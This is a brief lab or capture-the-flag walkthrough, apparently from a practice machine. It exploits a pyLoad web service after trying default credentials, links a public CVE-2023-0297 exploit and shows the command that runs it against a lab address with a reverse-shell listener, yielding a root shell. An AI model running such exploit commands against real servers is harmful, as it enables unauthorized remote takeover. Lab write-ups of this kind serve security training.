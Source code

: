 
We have a website running pyload:
![](../attachment/c675fbb7c0ad6147da1145de89bdf932.png)
Now trying default credentials:
![](../attachment/500284e5ce85e7eb32d9c69dec17fd03.png)

Now we found an exploit:
https://github.com/JacobEbben/CVE-2023-0297/blob/main/exploit.py

Now running it:
```
python3 exploit.py -t http://192.168.173.26:9666 -I 192.168.45.244 -P 22
```
![](../attachment/04a51f7ea92505283a573719c9f1c0db.png)
We got a shell as root.
